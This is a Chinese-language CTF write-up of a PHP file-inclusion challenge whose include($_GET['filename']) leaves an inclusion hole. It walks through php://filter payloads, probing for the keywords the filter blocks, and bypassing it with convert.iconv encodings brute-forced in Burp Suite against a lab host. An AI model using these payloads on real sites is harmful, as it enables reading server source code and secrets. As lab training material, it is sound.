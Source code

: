 # fileinclude 过滤

题目

```
<?php
highlight_file(__FILE__);
    include("./check.php");
    if(isset($_GET['filename'])){
        $filename  = $_GET['filename'];
        include($filename);
    }
?>
```
伪协议
```http request
GET /?filename=php://filter/convert.base64-encode/resource=./check.php/ HTTP/1.1
```
* 【base64编码 是为了防止flag 在代码的注释中，所以使用base64解码 显示注释部分】

* 直接伪协议绕过，会出现 do not hack!  存在过滤

----

## 对过滤的处理

* 使用
* ?filename=1hp://1ilter/1ead=1onvert.1ase64-1ncode/1esource=1lag.1hp
* 逐一测试，将要测试的字符串中的1改回去即可

得到
```
/?filename=php://filter/1ead=convert.1ase64-1ncode/resource=flag.php
```
所以 需要绕过 read base64 encode 

### 对于read的处理
*  read：两者效果一样。
* 条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；
```
?filename=php://filter/convert.base64-encode/resource=xxx.php
?filename=php://filter/read=convert.base64-encode/resource=xxx.php
```

### 对过滤器convert.base64-encode的处理

https://blog.csdn.net/qq_44657899/article/details/109300335

由于convert还可以使用，所以选择使用其他的过滤器convert.iconv.* 

使用方法：convert.iconv.<input-encoding>.<output-encoding> 或者 convert.iconv.<input-encoding>/<output-encoding>


这里的<input-encoding>和<output-encoding>分别为输入的字符串编码方式和输出的字符串编码方式（字符集）。可选项如下（PHP: 支持的字符编码 ）：

#### 编码方式
https://www.php.net/manual/zh/mbstring.supported-encodings.php
```
UCS-4
UCS-4BE
UCS-4LE
UCS-2
UCS-2BE
UCS-2LE
UTF-32
UTF-32BE
UTF-32LE
UTF-16
UTF-16BE
UTF-16LE
UTF-7
UTF7-IMAP
UTF-8
ASCII
EUC-JP
SJIS
eucJP-win
SJIS-win
ISO-2022-JP
ISO-2022-JP-MS
CP932
CP51932
SJIS-mac
SJIS-Mobile#DOCOMO
SJIS-Mobile#KDDI
SJIS-Mobile#SOFTBANK
UTF-8-Mobile#DOCOMO
UTF-8-Mobile#KDDI-A
UTF-8-Mobile#KDDI-B
UTF-8-Mobile#SOFTBANK
ISO-2022-JP-MOBILE#KDDI
JIS
JIS-ms
CP50220
CP50220raw
CP50221
CP50222
ISO-8859-1
ISO-8859-2
ISO-8859-3
ISO-8859-4
ISO-8859-5
ISO-8859-6
ISO-8859-7
ISO-8859-8
ISO-8859-9
ISO-8859-10
ISO-8859-13
ISO-8859-14
ISO-8859-15
ISO-8859-16
byte2be
byte2le
byte4be
byte4le
BASE64
HTML-ENTITIES
7bit
8bit
EUC-CN
CP936
GB18030
HZ
EUC-TW
CP950
BIG-5
EUC-KR
UHC
ISO-2022-KR
Windows-1251
Windows-1252
CP866
KOI8-R
KOI8-U
ArmSCII-8
```

## payload
```http request
GET /?filename=php://filter/convert.iconv.§§.§§/resource=flag.php / HTTP/1.1
Host: 61.147.171.105:56702
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

* brupsuit cluster Bomb
* 将上述编码方式做成字典 添加两个set 爆破 得到flag

![img.png](imgs/编码方式爆破.png)

---
## brup 爆破模式
![img.png](imgs/brupsuit爆破模式1.png)
![img_1.png](imgs/brupsuit爆破模式2.png)